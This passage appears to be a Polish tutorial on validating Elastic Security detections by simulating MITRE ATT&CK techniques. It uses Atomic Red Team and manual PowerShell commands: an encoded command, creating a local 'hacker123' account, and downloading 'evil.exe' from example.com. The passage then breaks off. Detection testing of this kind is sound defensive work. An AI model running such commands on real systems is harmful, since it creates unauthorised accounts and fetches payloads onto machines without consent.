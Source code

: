 3. Uruchom symulację:

**Przykład: Technika T1059.001 (PowerShell)**

```powershell
Invoke-AtomicTest T1059.001
```

> Kibana powinna wykryć: użycie zakodowanego PowerShell, nieautoryzowane polecenia, itp.

***

### B. Ręczne symulacje – bez Atomic Red Team

#### 🔸 PowerShell encoded command (T1059)

```powershell
powershell -enc UwB0AGEAcgB0AC0AUwBsAGUAZQBwACAANAA=
```

(tj. `Start-Sleep 4` zakodowane base64)

#### 🔸 Tworzenie konta lokalnego (T1136)

```powershell
net user hacker123 Password123! /add
```

#### 🔸 Pobranie pliku z Internetu (T1105)

```powershell
Invoke-WebRequest -Uri http://example.com/evil.exe -OutFile C:\temp\evil.exe
```

> Wszystkie te działania powinny pojawić się jako **alerty** w Elastic Security i być **mapowane do MITRE ATT\&CK**.

***

## Jak sprawdzić efekty w Kibanie?

1. Przejdź do **Security → Alerts**
2. Filtruj po:
   * `rule.name` (np. "Suspicious PowerShell Command")
   * `mitre.technique.name` (np. "PowerShell")
3. Kliknij alert → zobacz szczegóły → będą tam:
   * Hostname
   * Wykryta technika ATT\&CK
   * Komenda lub proces
4. Sprawdź też dashboard ATT\&CK, czy pojawiła się technika (np. T1059, T1136)

***

### BONUS: Symulacja malware (YARA)

Jeśli chcesz testować reguły YARA:
